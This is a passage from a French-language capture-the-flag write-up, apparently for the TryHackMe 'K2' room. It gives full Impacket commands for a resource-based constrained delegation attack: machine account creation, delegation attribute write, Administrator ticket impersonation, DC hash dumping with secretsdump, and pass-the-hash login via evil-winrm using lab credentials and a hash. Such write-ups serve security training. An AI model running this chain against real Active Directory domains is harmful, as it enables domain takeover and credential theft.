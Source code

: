 1. Créer un compte d'ordinateur dans le domaine

```
impacket-addcomputer -computer-name 'KSCORPIO$' -computer-pass 'LETSgetr00t!' -dc-host K2RootDC.k2.thm -domain-netbios k2.thm k2.thm/o.armstrong:'arMStronG08'
```

![RBCD step 1](/images/THM-K2/RBCD1.png)


2. Modifier l'attribut `msDS-AllowedToActOnBehalfOtherIdentity` sur le contrôleur de domaine pour inclure notre objet ordinateur nouvellement créé afin d'autoriser l'usurpation d'identité.

```
impacket-rbcd -delegate-from 'KSCORPIO$' -delegate-to 'K2RootDC$' -dc-ip 10.10.124.173 -action 'write' 'k2.thm/o.armstrong:arMStronG08'
```

![RBCD step 2](/images/THM-K2/RBCD2.png)


3. Obtenir un ticket Kerberos en se faisant passer pour **Administrator**.

```
impacket-getST -spn 'cifs/K2RootDC.k2.thm' -impersonate Administrator -dc-ip 10.10.124.173 k2.thm/KSCORPIO$:'LETSgetr00t!'
```

![RBCD step 3](/images/THM-K2/RBCD3.png)

4. Pour qu'Impacket utilise notre ticket, il faut définir une variable d'environnement avec le nom de notre fichier de cache.

```
export KRB5CCNAME=Administrator@cifs_K2RootDC.k2.thm@K2.THM.ccache
```

5. Extraire les hashs NTLM du DC.

```
impacket-secretsdump 'k2.thm/Administrator@K2RootDC.k2.thm' -k -no-pass -dc-ip 10.10.124.173 -target-ip 10.10.124.173 -just-dc-ntlm
```

![RBCD step 4](/images/THM-K2/RBCD4.png)

Avec le hash de l'administrateur, nous pouvons nous connecter via evil-winrm et lire le drapeau root.

```
evil-winrm -i k2.thm -u Administrator -H "15ecc755a43d2e7c8001215609d94b90"
```

![K2 -Summit root flag](/images/THM-K2/root_flag_K2S.png)


Merci d'avoir pris le temps de lire ce **long** article! Je vous laisse ci-dessous quelques références qui m'ont été utiles pour cette room.

## Références
